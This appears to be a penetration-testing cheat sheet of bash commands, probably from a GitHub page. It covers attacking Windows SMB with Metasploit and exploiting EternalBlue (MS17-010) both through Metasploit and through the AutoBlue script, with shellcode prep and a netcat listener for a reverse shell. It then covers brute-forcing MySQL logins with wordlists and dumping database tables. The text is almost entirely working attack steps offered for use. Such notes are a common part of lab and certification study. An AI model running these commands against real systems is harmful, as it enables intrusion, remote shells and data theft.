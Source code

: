 ```bash
set SMBUser Administrator
set SMBPass <PW>
set payload windows/x64/meterpreter/reverse_tcp
run

# Without <USER>:<PW>, exploit a vulnerability, e.g. EternalBlue
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <TARGET_IP>
run

# Other modules
use auxiliary/scanner/smb/smb_login
use exploit/windows/smb/psexec
use exploit/windows/smb/ms17_010_eternalblue

set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false

## Manual Exploit - AutoBlue
cd
mkdir tools
cd /home/kali/tools
sudo git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git 
cd AutoBlue-MS17-010
pip install -r requirements.txt

cd shellcode
chmod +x shell_prep.sh
./shell_prep.sh
# LHOST = Host Kali Linux IP
# LPORT = Port Kali will listen for the reverse shell

nc -nvlp 1234 # On attacker VM

cd ..
chmod +x eternalblue_exploit7.py
python eternalblue_exploit7.py <TARGET_IP> shellcode/sc_x64.bin
```

**MYSQL**

```bash
# Targeting MYSQL (Wordpress)
nmap -sV -sC -p 3306,8585 <TARGET_IP>

searchsploit MySQL 5.5

## Brute-force MySql - msfconsole
msfconsole -q
use auxiliary/scanner/mysql/mysql_login
set RHOSTS <TARGET_IP>
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
run

## MYSQL Login with <USER>
mysql -u root -p -h <TARGET_IP>

show databases;
use <db>;
show tables;
select * from <table>;

## msfconsole
```